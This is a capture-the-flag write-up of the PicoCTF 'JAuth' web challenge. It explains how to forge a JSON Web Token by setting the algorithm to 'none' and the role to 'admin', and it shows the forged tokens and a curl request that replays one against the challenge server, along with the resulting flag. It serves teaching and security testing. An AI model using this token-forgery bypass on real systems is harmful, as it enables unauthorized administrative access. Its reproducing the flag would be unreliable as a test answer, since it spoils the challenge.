 # Write up of JAuth PicoCTF problem

This write up of the PicoCTF JAuth challenge is different from others because it is from first-principles.  We explain how the clues lead logically to the solution!

## Problem Specification

- AUTHOR: GEOFFREY NJOGU

Most web application developers use third party components without testing their security. Some of the past affected companies are:
- Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638
- Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used
- VerticalScope (internet media company) - outdated version of vBulletin forum software used

Can you identify the components and exploit the vulnerable one?
The website is running at [http://saturn.picoctf.net:55824](http://saturn.picoctf.net:55824). Can you become an admin?
You can login as `test` with the password `Test123!` to get started.

### Hints

- Use the web browser tools to check out the JWT cookie.
- The JWT should always have two (2) . separators.

## Local Setup

In this walk-through I am using the FireFox browser.  The reason for this is that it has some hacker friendly tricks that the more popular browsers don't have.  We shall see this in due course.

## Solution Strategy

Firstly the problem starts talking about famous public web-oriented hacks, and then the first hint is about JWT cookies.
Logically we can combine these two ideas as follows:
1.  Lets try out the given website, and study the JWT cookie.
1.  Lets do research on known vulnerabilities related to the JWT cookie we get.

The note about JWT separators is unusual, so we'll need to come back to that when it is relevant.

## Initial Interaction with the Bank website

1. I launch FireFox and visit http://saturn.picoctf.net:55824 
1. It prompts for username and password, so I give it `test` and `Test123!`

We now use the menu option `Tools > Browser Tools > Web Developer Tools`

To find out cookies, we use Diagnostic Tab `Storage` and then on the left use sub-section `Cookies`.

This tells us there is a cookie called `token` whose value is 
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjg4MzA4OTY3MjA5LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwLjE1OyBydjoxMDkuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC8xMTQuMCIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjg4MzA4OTY3fQ.aJ_sbLSDUsxHCCbwzF1AwxeSS-AmI4T3dWhhgvkoluU
```

Note that on Firefox you can double click here and actually edit the cookie.  This is one reason why Firefox is hacker-friendly.

We know that this is a good cookie in the sense that we managed to login with it.  Also the cookie is base64 encoded but with the dot (period) character.  It is of the form `A.B.C` where each of A, B, and C and base64 encoded strings.  So we note this is called out by the second hint which draws attention to the `.` (period) characters.

## Research

When we look up the public breaches we note that the websites call out various insecure aspects of the technology they used.
So what is potentially insecure about our JWT above?

To find out what we have we can use the JWT debugger website [https://token.dev/](https://token.dev/).  By pasting in the above token value we get:
```
Header
{
  "typ": "JWT",
  "alg": "HS256"
}
Payload
{
  "auth": 1688308967209,
  "agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/114.0",
  "role": "user",
  "iat": 1688308967
}
```

A search for JWT Vulnerabilities such as "how to detect if a website uses insecure JWT implementation" yields the website 
[Testing JSON Web Tokens](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/10-Testing_JSON_Web_Tokens)

![Guidelines](./WSTG_Guidelines.png)

This is now a direct walkthrough of what we need to do.  First switch off security, by setting "alg" to "none", setting the role to "admin" and then omitting the signature at the end but retaining the trailing period.

Using the JWT debugger website with the Algorithm Drop-Down button set to `none` we can get to:

![Modified JWT](./modifiedJWT.png)

```
Header
{
  "typ": "JWT",
  "alg": "none"
}
{
  "auth": 1688308967209,
  "agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/114.0",
  "role": "admin",
  "iat": 1688308967
}
```

This yields the base64 JWT:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjg4MzA4OTY3MjA5LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwLjE1OyBydjoxMDkuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC8xMTQuMCIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY4ODMwODk2N30
```

We then just need to add the trailing period so it remains valid:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjg4MzA4OTY3MjA5LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwLjE1OyBydjoxMDkuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC8xMTQuMCIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY4ODMwODk2N30.
```

If we go back into Firefox, having double-clicked the Cookie value, we can paste in the above value, and then press Reload.
It gives us an Admin login with the Flag shown.

![Edited JWT](./editedJWT.png)

There is one final trick.  Clicking on the Network Tab, clicking on the network request (that returned 200) and then right-clicking we can select `Copy Value > Copy as cURL` to get the following:
```
curl 'http://saturn.picoctf.net:55824/private' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/114.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-GB,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://saturn.picoctf.net:55824/' -H 'Connection: keep-alive' -H 'Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjg4MzA4OTY3MjA5LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwLjE1OyBydjoxMDkuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC8xMTQuMCIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY4ODMwODk2N30.' -H 'Upgrade-Insecure-Requests: 1'

this can be pruned down to the essentials to prove we know our solution.
```
curl 'http://saturn.picoctf.net:55824/private' -H 'Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjg4MzA4OTY3MjA5LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChNYWNpbnRvc2g7IEludGVsIE1hYyBPUyBYIDEwLjE1OyBydjoxMDkuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC8xMTQuMCIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY4ODMwODk2N30.'
```

The result is:
```
<html>
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <meta
      name="viewport"
      content="width=device-width, initial-scale=1, shrink-to-fit=no"
    />
    <title>Our Bank</title>
    <link
      rel="stylesheet"
      href="https://maxcdn.bootstrapcdn.com/bootswatch/3.2.0/united/bootstrap.min.css"
    />
    <style type="text/css">
      .form-signin {
        width: 100%;
        max-width: 420px;
        padding: 15px;
        margin: auto;
      }
    </style>
  </head>
  <body>
    <div class="text-center">
      <h1>Hello, admin! You have logged in as admin!</h1>
    </div>
    <div class="text-center"><span>picoCTF{succ3ss_@u7h3nt1c@710n_bc6d9041}</span></div>
    <form class="form-signin" action="/logout" method="GET">
      <div class="text-center mb-4">
        <input type="submit" class="btn btn-danger" value="logout" />
      </div>
    </form>
  </body>
</html>
```

Hence the flag is `picoCTF{succ3ss_@u7h3nt1c@710n_bc6d9041}`
